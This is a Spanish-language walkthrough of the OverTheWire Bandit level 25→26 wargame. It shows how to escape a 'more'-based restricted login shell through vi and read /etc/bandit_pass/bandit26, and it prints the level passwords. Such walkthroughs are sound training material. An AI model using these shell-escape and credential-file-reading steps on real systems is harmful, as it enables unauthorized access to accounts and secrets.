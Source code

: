 # Bandit Level 25 → Level 26

## Objetivo
Iniciar sesión en bandit26 desde bandit25 debería ser bastante fácil... El shell para el usuario bandit26 no es /**bin/bash**, sino algo más. Averigüe qué es, cómo funciona y cómo salir de él.

## Datos de acceso al nivel
* Servidor: ssh bandit25@bandit.labs.overthewire.org
* Usuario: bandit25
* Contraseña: p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

## Solución
``` bash 
bandit25@bandit:~$ ls 
bandit26.sshkey 
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost -p 2220 

Connection to localhost closed.
bandit25@bandit:~$ cat /etc/passwd | grep bandit26 bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext 
bandit25@bandit:~$ cat /usr/bin/showtext 
#!/bin/sh export TERM=linux 
exec more ~/text.txt 
exit 0 
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost -p 2220
--More--(83%) 
v
"~/text.txt" [readonly] 6L, 258B 
:e /etc/bandit_pass/bandit26 
'c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1'
~ 
~ 
~ 
~ 
"/etc/bandit_pass/bandit26" [readonly] 1L, 33B 
:!q
Press ENTER or type command to continue 
q 
~ 
~ 
------------------------ 
Connection to localhost closed. 
bandit25@bandit:~ exit
```
## Notas Adicionales
|Comando | Descripcion |
|-----|-------|
| more | Nos sirve para ver los archivos de texto en el símbolo del sistema, mostrando una pantalla a la vez en caso de que sea grande.

## Referencias
* [more](https://www.geeksforgeeks.org/more-command-in-linux-with-examples/)

Fecha: 28/02/2023.